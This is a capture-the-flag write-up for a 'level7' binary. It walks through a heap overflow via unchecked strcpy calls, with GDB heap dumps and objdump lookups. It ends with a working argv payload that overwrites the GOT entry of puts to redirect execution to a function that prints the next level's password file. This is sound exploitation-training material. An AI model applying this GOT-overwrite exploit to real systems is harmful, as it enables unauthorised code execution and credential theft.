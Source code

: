 # overwrite GOT section

### Context 

Main function call several time, malloc and strcpy, finish by opening the passwd and store it inside a global var 'c'.

```c
strcpy((char *)puVar1[1],*(char **)(param_2 + 4));
strcpy((char *)puVar3[1],*(char **)(param_2 + 8));
__stream = fopen("/home/user/level8/.pass","r");
fgets(c,0x44,__stream);
puts("~~");
```

Strcpy is again not protected because both dest are 8 byte long, and the src is our argv[1] and argv[2].

There is also a winnig function printing the buffer c, where is store the passwd.

### Exploit

#### Theory

Lets control the code execution by overwriting the GOT (global offset table).

What is Global Offset Table (GOT) ? 

Got is a section which contain the addresses of dynamically linked functions. When you first time you program, libc func like (puts) are undefined, and they are store in the .plt section. If you disas this code, you can see that its jumping to another address. ld.so (dynamic linker/loader) gonna find the puts inside the libc and write the address in the GOT.

Wonderful, puts it is call in the programm, it mean, if we find it address in the GOT, we can overwrite it content by a pointer to m function. 

#### Payload

- first let's see what happen in the heap when i ```./level7 AAAAAAAAA BBBBBBBB```

```c
(gdb) x/30xw 0x804a000
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x41414141
0x804a020:	0x00000000	0x00000011	0x00000002	0x0804a038
0x804a030:	0x00000000	0x00000011	0x42424242	0x42424242
0x804a040:	0x00000000	0x00020fc1	0xfbad240c	0x00000000
```
0x0804a038 seems to be the pointer to overwrite. I need write, 20 byte to overwrite it.

- I run it again with ```./level7 AAAAAAAAAAAAAAAAAAAABBBB BBBBBBBB```, i should seg because, it try writing BBBBBBBB at address `0x42424242`. I put a breakpoint in gdb, before the bot strcpy and print register eax, which contain the pointer to dest.

first call seems logic.
```c
(gdb) info register
eax            0x804a018	134520856
```

second call:
```c
(gdb) info register
eax            0x42424242	1111638594
```

Nice, address 0x42424242 is load into strcpy as the dest address.

- We need to replace it with the got address of Puts:

```bash
objdump -D level7 |grep puts
08048400 <puts@plt>:
 80485f7:	e8 04 fe ff ff       	call   8048400 <puts@plt>
```

There we have puts in the plt section, so its no link. I run the program in gdb a disas the address puts@plt:

```c
disas 0x8048400
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
```

Nice, the jump is the address load int GOT section, so the real puts ! 

Last step is to look for m function: for overwrite the content of puts.

```c
objdump -t level7 | grep m
080484f4 g     F .text	0000002d              m
```

Final payload:

```bash
./level7 $(python2.7 -c 'import sys; sys.stdout.write(b"A" * 20 + b"\x28\x99\x04\x08")') $(python2.7 -c 'import sys; sys.stdout.write(b"\xf4\x84\x04\x08")')
```

As you can see in GDB: if I print the heap: 

```c
(gdb) x/30wx 0x804a000
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x08049928
```

Address of second dest as been well overwrite with the address of puts. And if i print the value pointed bye puts i got the m func:

```c
x/wx *0x8049928
0x80484f4 <m>:	0x83e58955
disas 0x080484f4
Dump of assembler code for function m:
   0x080484f4 <+0>:	push   %ebp
   0x080484f5 <+1>:	mov    %esp,%ebp
   0x080484f7 <+3>:	sub    $0x18,%esp
   0x080484fa <+6>:	movl   $0x0,(%esp)
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    $0x80486e0,%edx
   0x0804850b <+23>:	mov    %eax,0x8(%esp)
   0x0804850f <+27>:	movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:	mov    %edx,(%esp)
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave  
   0x08048520 <+44>:	ret
```

it print out the .pass !